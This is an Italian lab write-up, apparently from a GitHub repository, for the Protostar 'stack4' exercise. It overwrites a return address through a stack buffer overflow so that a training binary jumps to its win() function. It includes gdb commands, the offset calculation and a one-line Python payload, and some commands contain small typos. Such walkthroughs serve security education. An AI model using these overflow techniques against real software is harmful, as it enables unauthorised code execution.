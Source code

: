# Protostar_stack 4 - Stack-based buffer overflow

## Obiettivo della sfida
Eseguire la funzione _win()_ a tempo di esecuzione, ciò modifica il flusso di esecuzione poichè provoca il salto del codice alla funzione _win()_

## Tentativo
Proviamo a mandere in buffer overflow la variabile _buffer_ con:
```bash
> python -c 'print "a" + 80' | /opt/protostar/stack4
#output
Segmentation fault
```
Il programma scrive le prime 64 "a" in _buffer_ e le restanti vengono scritte in locazioni contigue alcune riservate alla memorizzazione della variabile EBP per la gestione dello stack.
### Riflessione
A differenza della sfida precedente qui non abbiamo una variabile esplicita da sovrascrivere. Abbiamo bisogno di una cella che se sovrascritta provoca l'alterazione del flusso di esecuzione.

### Indirizzo di ritorno
Essa è una cella di dimensioni pari all'architettura(4 byte per Protostar) e contiene l'indirizzo della prima istruzione da eseguire al termine della funzione descritta nello stack frame.

## Strategia di attacco
Sovrascrivere l'indirizzo di ritorno con quello della funzione _win()_ per farlo occorre scoprire l'indirizzo della cella di memoria che contiene l'indirizzo di ritorno e l'indirizzo della funzione _win()_

### Recuperare l'indirizzo di win()
Utilizziamo **gdb**
```bash
> gdb -q /opt/protstar/bin/stack4
(gdb) > p win
$1 = {void (void)} 0x80483f4 <win>
# 0x80483f4 indirizzo di win()
```

### Recuperare l'indirizzo di ritorno
Per ottenere l'indirizzo di ritorno di _main()_ è necessario ricostruire il **layout dello stack** di _stack4_ per farlo(senza il sorgente) bisogna disassemblare il main e possiamo farlo con la funzione **disassemble** di gdb quindi lanciamo
```bash
(gdb) > disassemble main
# Dump of assembler code
```
Analizziamo il dump e vediamo che i registri coinvolti sono:
- ESP: punta al top dello stack
- EBP: puntatore che consente di accedere alle variabili dell'interno frame

Inseriamo un **breakpoint** alla prima istruzione del main (abbiamo l'indirizzo perchè abbiamo il dump).
```bash
(gdb) > b *0x8048408
# breakpoint 1
# eseguiamo il programma
(gdb) > r
# monitoriamo l'evoluzione dello stack monitorando gli indirizzi di EBP e ESP ad ogni passo
(gdb) > p $ebp
$2 = (void *) 0xbffffdc8
(gdb) > p $esp
$3 = (void *) 0xbffffd4c
# 0xbffffd4c indirizzo di ritorno prima dell'esecuzione del main
# eseguiamo le istruzioni assembly passo dopo passo con
(gdb) > si
```

## Come sfruttare le vulnerabilità
Una volta seguita l'evoluzione dello stack possiamo capire quante "a" dobbiamo ripetere fino ad arrivare all'indirizzo di ritorno.  
Quindi dobbiamo dare in input un numero di a pari a  
`sizeof(buffer) + sizeof(padding) + sizeof(vecchio EBP)`.  
La dimensione del buffer è **64 byte** + la dimensione del padding è **8 byte** + dimensione del vecchio EBP che è **4 byte**, quindi possiamo dire che servono 76 "a" per arrivare all'indirizzo di ritorno, una volta arrivati a quell'indirizzo scriviamo l'indirizzo di _win()_ (al contrario perchè è Little Endian).

### Istruzioni da eseguire
```bash
> 'python -c 'print "a" * 76 + "\xf4\x83\x04\x08"'' | /opt/protostar/bin/stack4
# sfida vinta
Segmentation fault
```

## Commenti sulla sfida
Il crash è causato dal fatto che dopo l'esecuzione di _win()_ viene letto il valore successivo dello stack rovinato di conseguenza il programma crasha ma non ci interessa perchè la sfida è vinta.
